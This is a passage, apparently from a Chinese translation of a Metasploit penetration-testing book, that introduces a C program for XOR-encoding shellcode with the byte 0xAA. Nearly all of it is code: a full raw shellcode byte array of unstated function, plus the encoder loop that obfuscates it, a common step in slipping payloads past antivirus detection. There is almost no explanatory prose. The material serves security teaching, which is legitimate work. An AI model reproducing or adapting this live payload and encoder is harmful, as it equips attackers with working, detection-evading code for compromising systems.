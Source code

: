 由于我们已经准备好 shellcode，我们将在 C 中构建一个编码器，它将使用我们选择的字节 `0xAA` 进行 XOR 编码，如下所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/cpl-mtspl-gd/img/ce358121-f247-4bc6-ab51-9f6077d8e11a.png)

让我们看看如何创建一个 C 编码器程序，如下所示：

```
#include <Windows.h>
#include "stdafx.h"
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char buf[] =
"\xbe\x95\xb2\x95\xfe\xdd\xc4\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x56\x83\xc2\x04\x31\x72\x0f\x03\x72\x9a\x50\x60\x02\x4c\x16"
"\x8b\xfb\x8c\x77\x05\x1e\xbd\xb7\x71\x6a\xed\x07\xf1\x3e\x01"
"\xe3\x57\xab\x92\x81\x7f\xdc\x13\x2f\xa6\xd3\xa4\x1c\x9a\x72"
"\x26\x5f\xcf\x54\x17\x90\x02\x94\x50\xcd\xef\xc4\x09\x99\x42"
"\xf9\x3e\xd7\x5e\x72\x0c\xf9\xe6\x67\xc4\xf8\xc7\x39\x5f\xa3"
"\xc7\xb8\x8c\xdf\x41\xa3\xd1\xda\x18\x58\x21\x90\x9a\x88\x78"
"\x59\x30\xf5\xb5\xa8\x48\x31\x71\x53\x3f\x4b\x82\xee\x38\x88"
"\xf9\x34\xcc\x0b\x59\xbe\x76\xf0\x58\x13\xe0\x73\x56\xd8\x66"
"\xdb\x7a\xdf\xab\x57\x86\x54\x4a\xb8\x0f\x2e\x69\x1c\x54\xf4"
"\x10\x05\x30\x5b\x2c\x55\x9b\x04\x88\x1d\x31\x50\xa1\x7f\x5d"
"\x95\x88\x7f\x9d\xb1\x9b\x0c\xaf\x1e\x30\x9b\x83\xd7\x9e\x5c"
"\x92\xf0\x20\xb2\x1c\x90\xde\x33\x5c\xb8\x24\x67\x0c\xd2\x8d"
"\x08\xc7\x22\x31\xdd\x7d\x29\xa5\x1e\x29\x27\x50\xf7\x2b\x38"
"\x8b\x5b\xa2\xde\xfb\x33\xe4\x4e\xbc\xe3\x44\x3f\x54\xee\x4b"
"\x60\x44\x11\x86\x09\xef\xfe\x7e\x61\x98\x67\xdb\xf9\x39\x67"
"\xf6\x87\x7a\xe3\xf2\x78\x34\x04\x77\x6b\x21\x73\x77\x73\xb2"
"\x16\x77\x19\xb6\xb0\x20\xb5\xb4\xe5\x06\x1a\x46\xc0\x15\x5d"
"\xb8\x95\x2f\x15\x8f\x03\x0f\x41\xf0\xc3\x8f\x91\xa6\x89\x8f"
"\xf9\x1e\xea\xdc\x1c\x61\x27\x71\x8d\xf4\xc8\x23\x61\x5e\xa1"
"\xc9\x5c\xa8\x6e\x32\x8b\xaa\x69\xcc\x49\x85\xd1\xa4\xb1\x95"
"\xe1\x34\xd8\x15\xb2\x5c\x17\x39\x3d\xac\xd8\x90\x16\xa4\x53"
"\x75\xd4\x55\x63\x5c\xb8\xcb\x64\x53\x61\xfc\x1f\x1c\x96\xfd"
"\xdf\x34\xf3\xfe\xdf\x38\x05\xc3\x09\x01\x73\x02\x8a\x36\x8c"
"\x31\xaf\x1f\x07\x39\xe3\x60\x02";

int main()
{
 for (unsigned int i = 0; i < sizeof buf; ++i)
 {
  if (i % 15 == 0)
  {
   std::cout << "\"\n\"";
  }
  unsigned char val = (unsigned int)buf[i] ^ 0xAA;
  std::cout << "\\x" << std::hex << (unsigned int)val;
 }
 _getch();
 return 0;
}
```
